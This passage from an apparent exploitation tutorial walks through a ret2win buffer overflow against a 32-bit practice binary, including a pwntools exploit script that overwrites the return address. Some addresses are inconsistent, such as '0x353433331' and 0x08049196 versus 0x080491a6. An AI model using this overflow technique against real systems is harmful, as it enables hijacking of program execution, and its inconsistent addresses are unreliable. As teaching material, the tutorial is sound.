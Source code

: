 It's saying that it reached the address `0x35343331` and stopped. What does this mean?

1. We now know that we control execution and were able to successfully deviate execution to another spot in memory.
2. We didn't quite do it right because we didn't get to the `win` function. We need to figure out what happened.

Let's dive deeper into what is happening here:

1. We notice that `0x353433331` is the hexadecimal of `5431`, which is the start of what's in the payload. We see it's backward because **the binary is written in little-endian architecture**.
2. We also notice that `134517158` is the hexadecimal of `080491a6`, which is the address of `win`.

_How can we get the hexadecimal to appear correctly in the payload?_

This is where pwntools comes in. Pwntools has a packaging function that allows for the packaging of data into the correct size and format. In 32-bit, this function is `p32()`. We modify the exploit to be:

```nasm
$ python3 -c "from pwn import *; print(b'A' * 52 + p32(0x08049196))"

b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08'
```

However, this won't copy correctly. Thankfully, pwntools comes to save us again and gives us a way to send this payload to the binary. Consider the following exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./win32')

padding = b'A' * 0x34

f_win = 0x080491a6

payload = p32(f_win)

buf = padding + payload
proc.sendline(buf)
proc.interactive()
```
{% endcode %}

Let's break this exploit down:

* `from pwn import *` -- This imports the pwntools library into the program, just like an `#include` in C-type languages.
* `proc = process('./win32')` -- This creates a process object that runs the `win32` binary.
* `padding = b'A' * 0x34` -- This creates a variable that is 52 bytes of `A` characters. Note that you could use any characters, but `A` (`0x41`) is a common choice.
* `f_win = 0x080491a6` -- This creates a variable that is the address of the `win` function. It's common to store your addresses as variables so it's easier to read.
* `payload = p32(f_win)` -- This creates a variable that is the address of the `win` function, but in the correct format for the binary.
* `buf = padding + payload` -- This is the final string that will get sent off to the process.
* `proc.sendline(buf)` -- This sends the payload to the process.
* `proc.interactive()` -- This allows us to interact with the process after the payload is sent.
